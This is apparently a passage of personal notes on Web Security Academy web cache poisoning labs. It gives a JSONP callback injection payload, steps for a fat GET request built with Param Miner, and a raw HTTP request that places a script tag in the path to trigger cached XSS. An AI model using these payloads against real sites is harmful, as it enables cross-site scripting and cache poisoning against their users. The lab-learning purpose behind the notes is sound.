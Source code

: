 ```
callback=alert(1);alert
```

Generate request using Param Miner, fat GET request

Remove Origin from generated request header

https://0a04006c03dd787cc0141a7f00de00f0.web-security-academy.net/js/geolocate.js?callback=setCountryCookie

### URL normalization

Possible XSS vulnerability by going to an invalid path like `/asd`

```
GET /asd<script>alert(1)</script> HTTP/1.1
Host: 0abb001304c24c42c00fd93a008e00a1.web-security-academy.net
```



